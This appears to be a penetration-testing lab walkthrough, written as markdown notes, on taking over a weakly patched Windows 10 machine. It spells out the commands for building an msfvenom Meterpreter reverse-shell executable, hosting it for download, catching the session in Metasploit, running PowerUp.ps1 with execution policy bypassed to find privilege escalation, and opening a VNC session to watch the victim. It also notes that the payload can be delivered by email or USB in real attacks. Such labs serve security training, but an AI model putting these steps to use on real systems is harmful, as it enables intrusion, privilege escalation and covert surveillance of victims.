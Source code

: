 - Attackers use client-side vulnerabilities to gain access to the target machine. VNC (Virtual Network Computing) enables an attacker to remotely access and control the targeted computers using another computer or mobile device from anywhere in the world. At the same time, VNC is also used by network administrators and organizations throughout every industry sector for a range of different scenarios and uses, including providing IT desktop support to colleagues and friends and accessing systems and services on the move.
- This lab demonstrates the exploitation procedure enforced on a weakly patched Windows 10 machine that allows you to gain remote access to it through a remote desktop connection.

- Open terminal
	> msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=#HOST IP address LPORT=444 -o /root/Desktop/Test.exe
	
	- This will generate **Test.exe**, a malicious file at the location **/root/Desktop**
	- Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from **Desktop** to the shared location using the below commands:
		> mkdir /var/www/html/share
		> chmod -R 755 /var/www/html/share
		> chown -R www-data:www-data /var/www/html/share
		> (copy malicious file to above location)
		> cp /root/Desktop/Test.exe /var/www/html/share
		
		- **Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it via an attachment in an email or through physical means such as a hard drive or pen drive.**
	- Now, start the apache service. To do this, type **service apache2 start** and press **Enter**.
		> service apache2 start
		> msfconsole (to start metasploit framework)
		> use exploit/multi/handler
		> set payload windows/meterpreter/reverse_tcp
		> set LHOST #hostip
		> set LPORT 444
		> exploit
		
		- now navigate to http://#hostip/share
		- click Text.exe to download it and open it
		- Back to linux machine, we see that meterpreter shell has opened a session
		- Type **sysinfo** and press **Enter** to verify that you have hacked the targeted **Windows 10**.
			> upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
			
			- This command uploads the PowerSploit file (**PowerUp.ps1**) to the target system’s present working directory.
			- PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
			> shell
			
			- to open a shell session. Observe that the present working directory points to the **Downloads** folder in the target system.
			> powershell -ExecutionPolicy Bypass -command ". .\PowerUp.ps1;Invoke-AllChecks" (to run the PowerUp.ns1 file)

			- A result appears, displaying **Check** and **AbuseFunction**.
			- Attackers exploit misconfigured services such as unquoted service paths, service object permissions, unattended installs, modifiable registry autoruns and configurations, and other locations to elevate access privileges. After establishing an active session using Metasploit, attackers use tools such as PowerSploit to detect misconfigured services that exist in the target OS.
			> exit 
			> to revert back to meterpreter session

			- Now, exploit VNC vulnerability to gain remote access to the **Windows 10** machine. To do so, type **run vnc** and press **Enter**.
				> run vnc

					- This will open a VNC session for the target machine. Using this session, you can see the victim’s activities on the system, including the files, websites, software, and other resources the user opens or runs.